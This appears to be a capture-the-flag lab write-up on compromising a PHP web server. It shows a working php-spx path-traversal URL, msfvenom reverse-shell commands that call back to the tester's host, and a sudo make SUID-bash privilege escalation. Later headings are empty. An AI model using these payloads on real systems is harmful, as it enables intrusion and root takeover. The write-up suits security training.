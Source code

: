 #InProgress 
```IP
192.168.192.108
```
# Enumeration

## HTTP 80
apache 2.4.52
default credentials **admin/admin, admin/password, admin/admin@123 and user/12345** doesnt work

in /phpinfo.php we find SPX version 0.4.15 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205115755.png?raw=true)


# Exploitation

we try to exploit SPX path traversal vulnerability
https://www.vicarius.io/vsociety/posts/novel-escape-from-the-spx-jungle-path-traversal-in-php-spx-cve-2024-42007
we get the following error
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121754.png?raw=true)
reviewing the code we can see that the SPX_KEY parameter is set to 'dev'
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121835.png?raw=true)

we have another key in the phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121918.png?raw=true)
lets edit the script and save it
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205121943.png?raw=true)
Now we get a file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205122014.png?raw=true)

```
http://192.168.192.108/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```
with this we get the source code

which has some hashes
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205124146.png?raw=true)
```
$2y$10$7LaMUa8an8NrvnQsj5xZ3eDdOejgLyXE8IIvsC.hFy1dg7rPb9cqG
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205131500.png?raw=true)
once cracked, we try ssh to the machine unsuccessfully. We will try to exploit the authenticated rce from the web

```
msfvenom -p php/reverse_php LHOST=192.168.45.204 LPORT=80 -o ../shell.php
```
we upload the latter shell to http://192.168.192.108/index.php?p=&upload
and we execute it
http://192.168.192.108/shell.php
we have now revshell as www data
I created yet another shell for a more stable stty
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.204 LPORT=4444 -f elf > shell.elf
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133923.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205133936.png?raw=true)


# PrivEsc

## Manual
```
su - profiler
```
lowprofile as password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205154956.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155212.png?raw=true)
it executes the following command
```
/bin/sh /root/php-spx/libtool --mode=install cp ./spx.la /root/php-spx/modules
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205155741.png?raw=true)
we change the following line
```
SHELL = /bin/sh
```
for
```
SHELL = /tmp/sh
```


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160140.png?raw=true)
then we will create in the /tmp directory an sh file which will contain the following lines:
```
#!/bin/bash
chmod u+s /bin/bash
```
we execute once again our sudo command, which will execute our file /tmp/sh
```
sudo /usr/bin/make install -C /home/profiler/php-spx
```
and with 
```
bash -p
```
we assess that we are root now!
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241205160549.png?raw=true)

## Automated

### Peass
### Mimikatz

# Lateral Movement
